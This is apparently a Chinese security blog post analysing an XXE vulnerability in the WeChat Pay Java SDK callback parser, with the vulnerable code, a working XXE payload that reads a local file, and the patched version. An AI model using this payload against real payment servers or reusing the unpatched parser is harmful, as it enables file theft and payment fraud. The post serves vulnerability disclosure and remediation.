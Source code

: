 ```yaml
---
layout: post
title: "微信支付SDK XXE漏洞分析"
date: 2018-07-04
description: "微信支付SDK XXE漏洞分析"
tag: 应用安全
---
```


------

## 漏洞描述
微信在JAVA版本的SDK中提供callback回调功能，用来帮助商家接收异步付款结果，该接口接受XML格式的数据，攻击者可以构造恶意的回调数据（XML格式）来窃取商家服务器上的任何文件，一般支付服务器均为核心服务器，出现XXE导致任意文件。另外，一旦攻击者获得了关键支付的安全密钥（md5-key和商家信息，将可以直接实现0元支付购买任何商品）。

## 漏洞来源
[http://seclists.org/fulldisclosure/2018/Jul/3](http://seclists.org/fulldisclosure/2018/Jul/3)  
[https://xz.aliyun.com/t/2427](https://xz.aliyun.com/t/2427)

## 漏洞分析
[微信支付Java SDK 下载](https://drive.google.com/file/d/1AoxfkxD7Kokl0uqILaqTnGAXSUR1o6ud/view?usp=sharing)
### 漏洞关键代码
* WXPayUtil.java
```java
public static Map<String, String> xmlToMap(String strXML) throws Exception {
        try {
            Map<String, String> data = new HashMap<String, String>();
            DocumentBuilderFactory documentBuilderFactory = DocumentBuilderFactory.newInstance();
            DocumentBuilder documentBuilder = documentBuilderFactory.newDocumentBuilder();
            InputStream stream = new ByteArrayInputStream(strXML.getBytes("UTF-8"));
            org.w3c.dom.Document doc = documentBuilder.parse(stream);
            doc.getDocumentElement().normalize();
            NodeList nodeList = doc.getDocumentElement().getChildNodes();
            for (int idx = 0; idx < nodeList.getLength(); ++idx) {
                Node node = nodeList.item(idx);
                if (node.getNodeType() == Node.ELEMENT_NODE) {
                    org.w3c.dom.Element element = (org.w3c.dom.Element) node;
                    data.put(element.getNodeName(), element.getTextContent());
                }
            }
            try {
                stream.close();
            } catch (Exception ex) {
                // do nothing
            }
            return data;
        } catch (Exception ex) {
            WXPayUtil.getLogger().warn("Invalid XML, can not convert to map. Error message: {}. XML content: {}", ex.getMessage(), strXML);
            throw ex;
        }

    }
```
微信SDK的xmlToMap方法接受并处理XML数据，但是默认支持外部实体解析，所以只要可以控制strXML就能导致XXE漏洞。
### 微信SDK支付逻辑
根据README可以看到，微信SDK的支付逻辑如下：
1. 首先统一下单
```java
import com.github.wxpay.sdk.WXPay;
import java.util.HashMap;
import java.util.Map;

public class WXPayExample {

    public static void main(String[] args) throws Exception {

        MyConfig config = new MyConfig();
        WXPay wxpay = new WXPay(config);

        Map<String, String> data = new HashMap<String, String>();
        data.put("body", "腾讯充值中心-QQ会员充值");
        data.put("out_trade_no", "2016090910595900000012");
        data.put("device_info", "");
        data.put("fee_type", "CNY");
        data.put("total_fee", "1");
        data.put("spbill_create_ip", "123.12.12.123");
        data.put("notify_url", "http://www.example.com/wxpay/notify");
        data.put("trade_type", "NATIVE");  // 此处指定为扫码支付
        data.put("product_id", "12");

        try {
            Map<String, String> resp = wxpay.unifiedOrder(data);
            System.out.println(resp);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

}
```
其中notify_url是接入方自己构建的web接口，用于异步接收微信支付结果通知的回调地址。
2. 处理微信回调
```java
import com.github.wxpay.sdk.WXPay;
import com.github.wxpay.sdk.WXPayUtil;
import java.util.Map;

public class WXPayExample {

    public static void main(String[] args) throws Exception {

        String notifyData = "...."; // 支付结果通知的xml格式数据

        MyConfig config = new MyConfig();
        WXPay wxpay = new WXPay(config);

        Map<String, String> notifyMap = WXPayUtil.xmlToMap(notifyData);  // 转换成map

        if (wxpay.isPayResultNotifySignatureValid(notifyMap)) {
            // 签名正确
            // 进行处理。
            // 注意特殊情况：订单已经退款，但收到了支付结果成功的通知，不应把商户侧订单状态从退款改成支付成功
        }
        else {
            // 签名错误，如果数据里没有sign字段，也认为是签名错误
        }
    }

}
```
nodifyData实际是微信给接入方回调地址notify_url返回的xml数据。接入方使用xmlToMap处理nodifydata。攻击者只需要知道nodify_url，就可以构造XXE Payload进行攻击。
### 漏洞复现
简单修改SDK中示例代码的xmlStr为XXE Payload，查看可否实现XXE攻击。
* TestWXPay.java
```java
    /**
     * 小测试
     */
    public void test001() {
        String xmlStr="<?xml version=\"1.0\" encoding=\"utf-8\"?>\n" +
                "<!DOCTYPE root [\n" +
                "\t<!ENTITY xxe SYSTEM \"file:///C:\\Windows\\System32\\drivers\\etc\\hosts\">]>\n" +
                "<root>\n" +
                "\t<xxe>&xxe;</xxe>\n" +
                "</root>";
        try {
            System.out.println(xmlStr);
            System.out.println("+++++++++++++++++");
//            System.out.println(WXPayUtil.isSignatureValid(xmlStr, config.getKey())); //此处可注释测试，接入方处理微信回调时也是先调用xmlToMap再校验签名的
            Map<String, String> hm = WXPayUtil.xmlToMap(xmlStr);
            System.out.println("+++++++++++++++++");
            System.out.println(hm);
//            System.out.println(hm.get("attach").length()); //此处可注释

        } catch (Exception e) {
            e.printStackTrace();
        }

    }
```
* 执行结果  
![](/images/posts/app_sec/WXPay_result1_2018-07-04_20-53-14.png)  
已经成功读取hosts文件。证明只要接入方使用了此版本SDK并且攻击者知道回调地址，就可以成功实现XXE攻击。
## 修复建议
禁用外部实体解析  
目前微信支付Java SDK已经修复了代码，可以在[这里](https://drive.google.com/file/d/1cHtElmTLfDRov1poIAAD70jwa8NGh78P/view?usp=sharing)下载修复后代码。
* WXPayUtil.java
```java
 public static Map<String, String> xmlToMap(String strXML) throws Exception {
        try {
            Map<String, String> data = new HashMap<String, String>();
            DocumentBuilderFactory documentBuilderFactory = DocumentBuilderFactory.newInstance();
			documentBuilderFactory.setExpandEntityReferences(false); //禁用外部实体解析
			documentBuilderFactory.setFeature(XMLConstants.FEATURE_SECURE_PROCESSING, true); //开启XML安全处理
            DocumentBuilder documentBuilder = documentBuilderFactory.newDocumentBuilder();
            InputStream stream = new ByteArrayInputStream(strXML.getBytes("UTF-8"));
            org.w3c.dom.Document doc = documentBuilder.parse(stream);
            doc.getDocumentElement().normalize();
            NodeList nodeList = doc.getDocumentElement().getChildNodes();
            for (int idx = 0; idx < nodeList.getLength(); ++idx) {
                Node node = nodeList.item(idx);
                if (node.getNodeType() == Node.ELEMENT_NODE) {
                    org.w3c.dom.Element element = (org.w3c.dom.Element) node;
                    data.put(element.getNodeName(), element.getTextContent());
                }
            }
            try {
                stream.close();
            } catch (Exception ex) {
                // do nothing
            }
            return data;
        } catch (Exception ex) {
            WXPayUtil.getLogger().warn("Invalid XML, can not convert to map. Error message: {}. XML content: {}", ex.getMessage(), strXML);
            throw ex;
        }

    }
```
* 修复后执行结果  
![](/images/posts/app_sec/WXPay_result2_2018-07-04_20-53-14.png)  